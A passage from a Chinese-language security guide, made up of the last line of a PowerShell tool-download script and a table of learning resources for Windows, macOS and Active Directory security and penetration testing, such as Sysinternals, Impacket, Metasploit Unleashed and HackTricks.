Write-Host "[+] 所有工具已下载到 $outputDir" -ForegroundColor Cyan
```

#### 工具集成工作流



### 3.7 学习资源

| 资源 | 链接/说明 | 适用人群 |
|------|----------|---------|
| Sysinternals 官方网站 | docs.microsoft.com/sysinternals | 所有 Windows 安全从业者 |
| Sysinternals Live | live.sysinternals.com | 在线运行工具，无需下载 |
| Objective-See | objective-see.org | macOS 安全研究 |
| Impacket 文档 | impacket.readthedocs.io | 域渗透测试 |
| Metasploit Unleashed | offensive-security.com/metasploit-unleashed | Metasploit 学习 |
| BloodHound 文档 | bloodhound.readthedocs.io | AD 攻击路径分析 |
| HackTricks | book.hacktricks.xyz | 综合渗透技巧 |
| 《Mac OS X Internals》 | Amit Singh 著 | macOS 底层原理 |
| 《Windows Internals》 | Russinovich 等著 | Windows 底层原理 |
